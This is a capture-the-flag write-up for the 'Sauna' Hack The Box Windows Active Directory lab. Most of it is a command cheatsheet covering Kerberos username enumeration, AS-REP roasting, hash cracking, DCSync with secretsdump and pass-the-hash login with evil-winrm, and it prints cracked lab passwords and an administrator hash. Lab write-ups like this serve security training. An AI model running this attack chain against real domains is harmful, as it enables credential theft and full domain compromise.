 # Sauna \[Windows AD Easy]

## Report

Create user list from web application and bruteforce valid usernames using kerbrute to find 'fsmith' who is ASREPRoastable.

Running winPEAS reveals auto logon creds for user 'svc\_loanmgr' and bloodhound reveals this user has DCSync privs. Run secretsdump.py to expose Admin creds

## Cheatsheet

```
(name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
DomainName:EGOTISTICALBANK                                                                                      
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766

./kerbrute_linux_amd64 userenum -d egotistical-bank.local  ~/htb/sauna/newuser.txt --dc egotistical-bank.local -v | grep 'VALID' 

./GetNPUsers.py -no-pass -dc-ip 10.10.10.175 -request 'egotistical-bank.local/fsmith'
hashcat64.exe -m 18200 hash.txt rockyou.txt -d 1

winPEAS to find svc_loanmgr:Moneymakestheworldgoround!
bloodhound to find DCSync
sudo python3 secretsdump.py egotistical-bank.local/svc_loanmgr@10.10.10.175
evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```

## Loot

### Creds

```
2025/06/12 00:35:02 >  [+] VALID USERNAME:       fsmith@egotistical-bank.local
fsmith:Thestrokes23
```

### Proof

What is a DCSync attack?

We pretend to be another DC and tell the DC hey I'm a DC as well so we gotta sync our passwords to keep the data consistent via Directory Replication Services (DRS) Remote Protocol and they oblige, returning the hashes for all accounts.

This can be used by wmiexec, psexec or evil-winrm

```
Using the DRSUAPI method to get NTDS.DIT secrets
```
